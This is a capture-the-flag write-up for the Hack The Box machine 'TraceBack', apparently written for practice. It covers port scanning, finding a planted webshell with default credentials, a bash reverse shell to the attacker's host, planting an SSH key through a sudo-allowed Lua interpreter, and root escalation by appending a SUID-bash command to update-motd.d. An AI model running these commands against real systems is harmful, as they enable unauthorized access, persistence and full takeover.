

# [TraceBack](https://app.hackthebox.com/machines/traceback)

```bash
nmap -p- --min-rate 10000 10.10.10.181 -Pn
```


After detection of open ports (22,80), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.181 -Pn
```


While browsing web application, I see that one message is there.


Let's search for webshell files, I find this [page](https://github.com/TheBinitGhimire/Web-Shells) to get names of webshells.

```bash
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```


Let's do directory enumeration for these files via `gobuster`.

```bash
gobuster dir -u http://10.10.10.181 -w php_shells.txt
```


But this page asks authentication credentials.


I find these credentials on source code of application.

admin:admin

I used these credentials to connect into machine.


Let's write our reverse shell payload into `Execute` section.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.10/1337 0>&1'
```


I got reverse shell from port (1337).


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


I just check this user's  privileges via `sudo -l` command.


Via `sysadmin` user, I can run `luvit` binary which can execute scripts which I want.

Now, I wrote `Lua` script to add my attacker's machine public key into `authorized_keys` of target machine.

```bash
authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
authkeys:write("{public_key}\n")
authkeys:close()
```


Let's open http server to send this file into target machine.

```bash
python3 -m http.server --bind 10.10.14.10 8080
```


Then, download `dr4ks.lua` file into machine via `wget` command.
```bash
wget http://10.10.14.10:8080/dr4ks.lua
```


Then, I run this script via `luvit` binary.
```bash
sudo -u sysadmin /home/sysadmin/luvit /tmp/dr4ks.lua
```


Let's try to connect machine via attacker's private key (id_rsa) file via `ssh` command
```bash
ssh -i {priv_key} sysadmin@10.10.10.181
```

user.txt


For privilege escalation, I upload `pspy64` to see jobs of target system.



I see different and interesting thing `update-motd.d`.


I searched `Privilege Escalation` for this and found related [blog](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)


```bash
echo "cp /bin/bash /home/sysadmin/dr4ks && chmod 4777 /home/sysadmin/dr4ks" >> /etc/update-motd.d/00-header
```

Then, we need to run `./dr4ks -p` to get root shell.


